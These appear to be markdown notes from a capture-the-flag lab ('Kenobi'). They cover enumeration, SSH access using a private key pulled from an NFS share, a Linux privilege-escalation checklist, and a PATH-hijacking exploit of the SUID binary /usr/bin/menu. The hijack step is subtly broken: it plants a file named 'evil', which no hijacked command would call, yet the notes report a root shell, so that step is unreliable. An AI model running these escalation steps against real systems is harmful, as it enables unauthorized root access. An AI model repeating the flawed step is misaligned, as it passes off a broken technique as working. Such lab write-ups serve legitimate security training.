 # Detailed Notes – Kenobi Pentest

## 🔍 Recon & Enumeration
- **Host Info:**
```bash
whoami        # kenobi
id            # uid=1000(kenobi) gid=1000(kenobi), groups=...
uname -a      # Linux kenobi 5.15.0-139-generic x86_64
lsb_release -a # Ubuntu 20.04.6 LTS
```
- Home directories: `/home/kenobi`, `/home/ubuntu`  
- Web root: `/var/www/html`  

---

## 🗝 Initial Access
- Retrieved private RSA key from NFS share.  
- SSH into target:
```bash
ssh -i ~/id_rsa kenobi@10.10.3.183
```

---

## ⚡ Privilege Escalation

### SUDO Permissions
```bash
sudo -l
```

### SUID Binaries
```bash
find / -perm -4000 -type f 2>/dev/null
```

### File Capabilities
```bash
getcap -r /
```

### Cron Jobs
```bash
cat /etc/crontab
ls -la /etc/cron.*
systemctl list-timers --all
```

### Writable Directories
```bash
find / -writable -type d 2>/dev/null
```

### Processes
```bash
ps aux --forest
```

---

## 💥 Exploitation
- Exploited root-owned `/usr/bin/menu` via **PATH hijacking**:
```bash
echo /bin/sh > /tmp/evil
chmod +x /tmp/evil
export PATH=/tmp:$PATH
/usr/bin/menu
```
- Verified root shell:
```bash
whoami  # root
```
- **PKEXEC exploit** not needed; `/usr/bin/menu` sufficient for escalation.

---

## 📝 Observations
- Target system is misconfigured:
  - Writable directories and insecure scripts exist.  
  - SUID binaries present with privilege escalation potential.  
  - Private RSA key accessible in shared location → initial access vector.
